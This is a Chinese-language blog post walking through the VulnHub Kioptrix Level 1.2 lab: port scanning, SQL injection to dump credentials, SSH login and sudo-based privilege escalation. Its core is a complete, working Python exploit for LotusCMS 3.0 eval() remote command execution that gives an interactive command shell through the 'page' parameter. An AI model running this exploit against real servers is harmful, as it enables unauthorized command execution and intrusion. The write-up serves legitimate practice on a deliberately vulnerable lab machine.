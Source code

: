 +++
title = '0x028 Kioptrix Level 1.2'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'vulnhub'
+++



# 端口扫描

![](/vulnhub_img/WEBRESOURCEd82406e1ceb19328fc7b540808c2bbe5截图.png)

# 渗透

LotusCMS漏洞，利用脚本：

```
#!/usr/bin/python
# Lotus CMS 3.0 eval() Remote Command Execition Exploit
# flaw in router() function, original write-up: http://secunia.com/secunia_research/2011-21/
# Auther Vaibhav Joshi(https://twitter.com/vj0shii)
import sys,requests,os

def execute(URL):
    os.system("clear")
    print("\t--------------------------------------------------------------")
    print("\t|        Lotus CMS 3.0 eval() Remote Command Execition       |")
    print("\t--------------------------------------------------------------")
    print("\t| Reference : http://secunia.com/secunia_research/2011-21/   |")
    print("\t| By        : Vaibhav Joshi                                  |")
    print("\t--------------------------------------------------------------")
    while True:
        loginurl = URL+"index.php"
        command = raw_input("# ")
        if command == "exit":
            print("Goodbye!")
            exit(0)
        payload = "index');${system('"+command+"')};#"
        r = requests.post(loginurl,headers={'Content-Type': 'application/x-www-form-urlencoded'},data={'page': payload})
        text = r.text
        t = text.split("</html>")
        print(t[1])


def Verify(URL):
    r = requests.get(URL,allow_redirects=False)
    if r.status_code != 200:
        print("Url is not valid")
        exit(0)

try:
    print("\t--------------------------------------------------------------")
    print("\t|        Lotus CMS 3.0 eval() Remote Command Execition       |")
    print("\t--------------------------------------------------------------")
    print("\t| Reference : http://secunia.com/secunia_research/2011-21/   |")
    print("\t| By        : Vaibhav Joshi                                  |")
    print("\t--------------------------------------------------------------")
    if len(sys.argv) < 3:
        print("\t| Usage     : %s <IP> <PORT>                            |" % sys.argv[0])
        print("\t--------------------------------------------------------------")
        sys.exit()
    host = sys.argv[1]
    port = sys.argv[2]
    loc = raw_input("Enter Home page URI of CMS (Default /): ")
    if loc == "":
        loc = "/"
    URL = "http://" + host + ":" + port + loc
    Verify(URL)
    execute(URL)

except Exception as error:
    print 'Caught this error: ' + repr(error)
```

![](/vulnhub_img/WEBRESOURCE965e967ef8d2aab44edd44912a6ce454截图.png)

sql注入

![](/vulnhub_img/WEBRESOURCE5c69b0c7c9c858c2f9b444d3ef286d08截图.png)

脱裤，发现账号密码：

![](/vulnhub_img/WEBRESOURCE51c58f1012bc9ad265da29840fcdf7d2截图.png)

ssh直接连接报错:

![](/vulnhub_img/WEBRESOURCEf8608d45e3d78f5abed79787b502b801截图.png)

修复，添加一个配置文件即可：

![](/vulnhub_img/WEBRESOURCEd78f037969724992a47a7d2b24f619c2截图.png)

重新连接：

![](/vulnhub_img/WEBRESOURCE7ce1f1deb5d10f9b72c7f59df4716967截图.png)

# 提权

sudo -l 

![](/vulnhub_img/WEBRESOURCE8a35da98dbabbed0ffba9ad13f288bc8截图.png)

报错：

![](/vulnhub_img/WEBRESOURCE25b8fccb229b15bc41ac0c9ea9267662截图.png)

修复一下：

export TERM=xterm

![](/vulnhub_img/WEBRESOURCE978e57aafe89cd1d8eacdd65e1832730截图.png)

然后就是研究这个东西的用法了，按了半天的键盘，发现主要是靠F数字键进行使用的：

F3打开文件，编辑文件

![](/vulnhub_img/WEBRESOURCEe7dbac6862095f187fbc204233a0380b截图.png)

![](/vulnhub_img/WEBRESOURCE7d76fe6d3fa4d606db31244eeca10a29截图.png)